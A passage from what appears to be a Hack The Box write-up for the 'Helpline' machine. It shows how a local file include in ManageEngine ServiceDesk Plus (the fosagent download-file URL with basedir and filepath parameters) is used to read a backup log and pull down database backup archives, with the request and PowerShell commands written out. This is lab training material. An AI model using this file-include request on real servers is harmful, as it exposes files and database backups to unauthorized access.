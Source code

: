 #### Vulnerability

This is [another
vulnerability](https://www.tenable.com/security/research/tra-2017-31) that
provides access to files on the system, this time through a local file
include. However, in this case, the target file must be given as a relative
path to one of four directories associated with the SDP install, including
option 4 which seems to intentionally open up all of the SDP install. The
vulnerability allows me to request any file relative to that path.

I can’t get `win.ini` like they show in the example, since it’s on `c:\`, and
SDP is installed on `e:\`:

![1555101583626](https://0xdfimages.gitlab.io/img/1555101583626.png)

#### Extract Database Backup

[This article](https://blog.netxp.fr/manageengine-deep-exploitation/) shows
how to use this exploit to get the database back-ups from target.

First, I’ll collect `E:\ManageEngine\ServiceDesk\bin\SDPbackup.log` from
`http://10.10.10.132:8080/fosagent/repl/download-
file?basedir=4&filepath=\bin\SDPbackup.log`. At the very bottom, I’ll find the
following:

    
    
    Zipfile created: E:\ManageEngine\ServiceDesk\bin\..\\backup\backup_postgres_9309_fullbackup_04_12_2019_17_43\backup_postgres_9309_fullbackup_04_12_2019_17_43_part_1.data
    Zipfile created: E:\ManageEngine\ServiceDesk\bin\..\\backup\backup_postgres_9309_fullbackup_04_12_2019_17_43\backup_postgres_9309_fullbackup_04_12_2019_17_43_part_2.data
    Backup Completed Successfully.
    

Now I have the location of two files that make up the database backup.

I’ll request both of those:

  * `backup_postgres_9309_fullbackup_04_12_2019_17_43_part_1.data`
  * `backup_postgres_9309_fullbackup_04_12_2019_17_43_part_1.data`

I’ll rename each of these to `.zip`, and then unzip:

    
    
    PS C:\Users\0xdf\hackthebox\helpline-10.10.10.132 > Expand-Archive .\backup_postgres_9309_fullbackup_04_12_2019_17_43_part_1.zip
    
    PS C:\Users\0xdf\hackthebox\helpline-10.10.10.132 > Expand-Archive .\backup_postgres_9309_fullbackup_04_12_2019_17_43_part_2.zip
    

Part2 contains the the xlsx file I already have:

    
    
    PS C:\Users\0xdf\hackthebox\helpline-10.10.10.132\backup_postgres_9309_fullbackup_04_12_2019_17_43_part_2 > gci -af -Recurse
    
    
        Directory: C:\Users\0xdf\hackthebox\helpline-10.10.10.132\backup_postgres_9309_fullbackup_04_12_2019_17_43_part_2
    